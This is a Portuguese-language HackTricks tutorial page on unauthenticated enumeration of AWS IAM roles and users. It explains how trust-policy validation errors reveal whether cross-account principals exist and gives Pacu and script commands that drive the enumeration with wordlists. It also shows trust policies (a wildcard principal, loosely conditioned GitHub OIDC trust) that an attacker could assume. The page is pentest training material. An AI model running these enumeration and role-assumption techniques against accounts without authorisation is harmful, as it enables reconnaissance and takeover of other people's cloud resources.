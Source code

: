 # AWS - IAM & STS Enumeração Não Autenticada

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Treinamento AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Treinamento GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Enumerar Funções e Nomes de Usuário em uma conta

### ~~Força Bruta para Assumir Função~~

{% hint style="danger" %}
**Esta técnica não funciona** mais, pois se a função existir ou não, você sempre recebe este erro:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Você pode **testar isso executando**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Tentar **assumir uma função sem as permissões necessárias** aciona uma mensagem de erro da AWS. Por exemplo, se não autorizado, a AWS pode retornar:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Esta mensagem confirma a existência da função, mas indica que sua política de assunção de função não permite sua assunção. Em contraste, tentar **assumir uma função inexistente leva a um erro diferente**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interessantemente, este método de **distinguir entre funções existentes e não existentes** é aplicável mesmo entre diferentes contas AWS. Com um ID de conta AWS válido e uma lista de palavras direcionada, é possível enumerar as funções presentes na conta sem enfrentar limitações inerentes.

Você pode usar este [script para enumerar potenciais principais](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) abusando deste problema.

### Políticas de Confiança: Força Bruta em funções e usuários de Conta Cruzada

Configurar ou atualizar a **política de confiança de uma função IAM envolve definir quais recursos ou serviços AWS estão autorizados a assumir essa função** e obter credenciais temporárias. Se o recurso especificado na política **existe**, a política de confiança é salva **com sucesso**. No entanto, se o recurso **não existe**, um **erro é gerado**, indicando que um principal inválido foi fornecido.

{% hint style="warning" %}
Note que nesse recurso você poderia especificar uma função ou usuário de conta cruzada:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Este é um exemplo de política:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Esse é o **erro** que você encontrará se usar uma **função que não existe**. Se a função **existir**, a política será **salva** sem erros. (O erro é para atualização, mas também funciona ao criar)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Você pode automatizar esse processo com [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Usando [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* O papel `admin` usado no exemplo é um **papel na sua conta a ser impersonado** pelo pacu para criar as políticas que ele precisa criar para a enumeração

### Privesc

No caso de o papel estar mal configurado e permitir que qualquer um o assuma:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
O atacante poderia simplesmente assumir isso.

## Federação OIDC de Terceiros

Imagine que você consegue ler um **fluxo de trabalho do Github Actions** que está acessando um **papel** dentro da **AWS**.\
Essa confiança pode dar acesso a um papel com a seguinte **política de confiança**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Esta política de confiança pode estar correta, mas a **falta de mais condições** deve fazer você desconfiar dela.\
Isso ocorre porque o papel anterior pode ser assumido por **QUALQUER UM do Github Actions**! Você deve especificar nas condições também outras coisas, como nome da organização, nome do repositório, ambiente, branch...

Outra possível má configuração é **adicionar uma condição** como a seguinte:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Note que **wildcard** (\*) antes do **dois pontos** (:). Você pode criar uma org como **org\_name1** e **assumir o papel** a partir de uma Ação do Github.

## Referências

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
